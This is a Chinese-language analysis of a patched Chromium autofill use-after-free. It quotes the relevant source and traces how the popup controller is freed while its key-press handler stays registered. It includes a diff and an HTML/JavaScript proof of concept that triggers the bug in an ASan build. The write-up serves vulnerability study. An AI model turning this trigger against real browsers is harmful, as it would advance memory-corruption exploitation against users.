

https://bugs.chromium.org/p/chromium/issues/detail?id=1133671
```
void AutofillPopupControllerImpl::Show(
    const std::vector<Suggestion>& suggestions,
    bool autoselect_first_suggestion,
    PopupType popup_type) {
  

    [.......]

  static_cast<ContentAutofillDriver*>(delegate_->GetAutofillDriver())
      ->RegisterKeyPressHandler(
          base::Bind(&AutofillPopupControllerImpl::HandleKeyPressEvent,
                     base::Unretained(this)));

  delegate_->OnPopupShown();
}
```
在函数AutofillPopupControllerImpl::Show中注册了一个KeyPressHandler，在这个过程中传入了一个this（AutofillPopupControllerImpl的原始指针）
```
  void RegisterKeyPressHandler(
      const content::RenderWidgetHost::KeyPressEventCallback& handler);
```
这样的话这个指针的所有权将会属于RenderWidgetHost。


```
void AutofillPopupControllerImpl::HideViewAndDie() {
#if defined(OS_ANDROID)
  // Mark the popup-like filling sources as unavailable.
  // Note: We don't invoke ManualFillingController::Hide() here, as we might
  // switch between text input fields.
  ManualFillingController::GetOrCreate(web_contents_)
      ->UpdateSourceAvailability(FillingSource::AUTOFILL,
                                 /*has_suggestions=*/false);
#endif

  if (view_) {
    // We need to fire the event while view is not deleted yet.
    FireControlsChangedEvent(false);
    view_->Hide();
  }

  delete this;
}
```
HideViewAndDie()被用来析构AutofillPopupControllerImpl，

### 1
```
AutofillExternalDelegate::~AutofillExternalDelegate() {
  if (deletion_callback_)
    std::move(deletion_callback_).Run();
}


AutofillPopupControllerImpl::AutofillPopupControllerImpl(
    base::WeakPtr<AutofillPopupDelegate> delegate,
    content::WebContents* web_contents,
    gfx::NativeView container_view,
    const gfx::RectF& element_bounds,
    base::i18n::TextDirection text_direction)
    : controller_common_(element_bounds, text_direction, container_view),
      web_contents_(web_contents),
      delegate_(delegate) {
  ClearState();
  delegate->RegisterDeletionCallback(base::BindOnce(
      &AutofillPopupControllerImpl::HideViewAndDie, GetWeakPtr()));
}
```
在AutofillExternalDelegate被析构时将会调用HideViewAndDie将AutofillPopupControllerImpl析构。

```
//AutofillExternalDelegate的生命周期属于AutofillManager
AutofillExternalDelegate::AutofillExternalDelegate(AutofillManager* manager,
                                                   AutofillDriver* driver)
    : manager_(manager), driver_(driver) {
  DCHECK(manager);
}


//而AutofillManager又属于ContentAutofillDriver
ContentAutofillDriver::ContentAutofillDriver(
    content::RenderFrameHost* render_frame_host,
    AutofillClient* client,
    const std::string& app_locale,
    AutofillHandler::AutofillDownloadManagerState enable_download_manager,
    AutofillProvider* provider)
    : render_frame_host_(render_frame_host),
      autofill_manager_(nullptr),
      key_press_handler_manager_(this),
      log_manager_(client->GetLogManager()) {
  // AutofillManager isn't used if provider is valid, Autofill provider is
  // currently used by Android WebView only.
  if (provider) {
    SetAutofillProvider(provider, enable_download_manager);
  } else {
    SetAutofillManager(std::make_unique<AutofillManager>(
        this, client, app_locale, enable_download_manager));
  }
  if (client && ShouldEnableHeavyFormDataScraping(client->GetChannel())) {
    GetAutofillAgent()->EnableHeavyFormDataScraping();
  }
}
```
可以得到AutofillExternalDelegate的生命周期属于ContentAutofillDriver。
```
// Class that drives autofill flow in the browser process based on
// communication from the renderer and from the external world. There is one
// instance per RenderFrameHost.
class ContentAutofillDriver : public AutofillDriver,
                              public mojom::AutofillDriver,
                              public KeyPressHandlerManager::Delegate {
```
ContentAutofillDriver的生命周期属于RenderFrameHost，只要我们释放RenderFrameHost，就会导致AutofillPopupControllerImpl析构，但是RenderWidgetHost与RenderFrameHost无关并不会被析构，此时只要触发之前注册的KeyPressHandler就会导致uaf

### 2

```
WeakPtr<AutofillPopupControllerImpl> AutofillPopupControllerImpl::GetOrCreate(
    WeakPtr<AutofillPopupControllerImpl> previous,
    WeakPtr<AutofillPopupDelegate> delegate,
    content::WebContents* web_contents,
    gfx::NativeView container_view,
    const gfx::RectF& element_bounds,
    base::i18n::TextDirection text_direction) {
  if (previous.get() && previous->delegate_.get() == delegate.get() &&
      previous->container_view() == container_view) {
    previous->SetElementBounds(element_bounds);
    previous->ClearState();
    return previous;
  }

  if (previous.get())
    previous->Hide(PopupHidingReason::kViewDestroyed);

  AutofillPopupControllerImpl* controller = new AutofillPopupControllerImpl(
      delegate, web_contents, container_view, element_bounds, text_direction);
  return controller->GetWeakPtr();
}


void ChromeAutofillClient::ShowAutofillPopup(
    const autofill::AutofillClient::PopupOpenArgs& open_args,
    base::WeakPtr<AutofillPopupDelegate> delegate) {
  // Convert element_bounds to be in screen space.
  gfx::Rect client_area = web_contents()->GetContainerBounds();
  gfx::RectF element_bounds_in_screen_space =
      open_args.element_bounds + client_area.OffsetFromOrigin();

  // Will delete or reuse the old |popup_controller_|.
  popup_controller_ = AutofillPopupControllerImpl::GetOrCreate(
      popup_controller_, delegate, web_contents(),
      web_contents()->GetNativeView(), element_bounds_in_screen_space,
      open_args.text_direction);

  popup_controller_->Show(open_args.suggestions,
                          open_args.autoselect_first_suggestion.value(),
                          open_args.popup_type);

  // When testing, try to keep popup open when the reason to hide is from an
  // external browser frame resize that is extraneous to our testing goals.
  if (keep_popup_open_for_testing_ && popup_controller_.get()) {
    popup_controller_->KeepPopupOpenForTesting();
  }
}
```

另一条调用链，最终将AutofillPopupControllerImpl实例保存在ChromeAutofillClient的popup_controller_字段。
```
AutofillPopupControllerImpl::AutofillPopupControllerImpl
  <-
AutofillPopupControllerImpl::GetOrCreate
    <- ChromeAutofillClient::ShowAutofillPopup
...
popup_controller_ = AutofillPopupControllerImpl::GetOrCreate
```

ChromeAutofillClient继承自WebContentsObserver，而WebContentsObserver是用来监视RenderFrameHost的生命周期的。
```
class ChromeAutofillClient
    : public AutofillClient,
      public content::WebContentsUserData<ChromeAutofillClient>,
      public content::WebContentsObserver
    
   [...........] 
    
  // content::WebContentsObserver implementation.
  void MainFrameWasResized(bool width_changed) override;
  void WebContentsDestroyed() override;
```

```

WebContentsImpl::~WebContentsImpl() {
  
  [......]
  
  observers_.ForEachObserver(
      [&](WebContentsObserver* observer) { observer->WebContentsDestroyed(); });
      
      
析构链：
ChromeAutofillClient::WebContentsDestroyed
  -> ChromeAutofillClient::HideAutofillPopup
    -> popup_controller_->Hide
      -> AutofillPopupControllerImpl::HideViewAndDie
        -> delete this
```
这样也会导致uaf的出现。

### poc

patch：
```
diff --git a/components/autofill/content/renderer/autofill_agent.cc b/components/autofill/content/renderer/autofill_agent.cc
index 07403dcb3836..113f3bd17bfd 100644
--- a/components/autofill/content/renderer/autofill_agent.cc
+++ b/components/autofill/content/renderer/autofill_agent.cc
@@ -313,10 +313,10 @@ void AutofillAgent::TextFieldDidEndEditing(const WebInputElement& element) {
       password_generation_agent_->ShouldIgnoreBlur()) {
     return;
   }
-  GetAutofillDriver()->DidEndTextFieldEditing();
-  password_autofill_agent_->DidEndTextFieldEditing();
-  if (password_generation_agent_)
-    password_generation_agent_->DidEndTextFieldEditing(element);
+  // GetAutofillDriver()->DidEndTextFieldEditing();
+  // password_autofill_agent_->DidEndTextFieldEditing();
+  // if (password_generation_agent_)
+  //   password_generation_agent_->DidEndTextFieldEditing(element);
 
   SendPotentiallySubmittedFormToBrowser();
 }
@@ -857,7 +857,7 @@ void AutofillAgent::HidePopup() {
   if (IsKeyboardAccessoryEnabled())
     return;
 
-  GetAutofillDriver()->HidePopup();
+  // GetAutofillDriver()->HidePopup();
 }
 
 void AutofillAgent::DidAssociateFormControlsDynamically() {
```

poc:
```
<h2 id="h2_id">
    1. Type any text in the form and click 'Submit' button.<br><br>
    2. Click the input field to show suggestion.<br><br>
    2. Press [enter] key **after iframe is deleted**.
</h2>
    
    
<form id="form" action="poc.html" method="POST">
    <input type="text" id="email" name="email">
    <input type="submit" value="Submit">
</form>

<script>
function deallocate_rfh() {
    document.body.removeChild(iframe);
}

function allocate_rfh() {
    document.getElementById("form").innerHTML = "";
    iframe = document.createElement("iframe");
    iframe.src = window.location + "#child";
    document.body.appendChild(iframe);
}

if (window.location.hash == "#child") {
    window.onload = () => {
        document.getElementById("h2_id").innerHTML = "";

        var input = document.getElementById("email");
        input.onclick = () => {
            setTimeout(() => {parent.deallocate_rfh();}, 2000);
        }
    
    }
} else {
    let flag = sessionStorage.getItem('is_refresh');
    if(flag){
        window.onload = allocate_rfh;
    } else {
        sessionStorage.setItem('is_refresh', true);
    }
}

</script>
```

Steps to reproduce:

1. Apply the patch.diff

2. Setup a HTTPServer
python -m SimpleHTTPServer

3. Run asan build chrome, and follow the instructions described in the html file.
./chrome http://localhost:8000/poc.html


补丁：

```
https://chromium-review.googlesource.com/c/chromium/src/+/2440620
```


修改为弱指针后，就避免了AutofillPopupControllerImpl析构之后指针仍有效的问题。


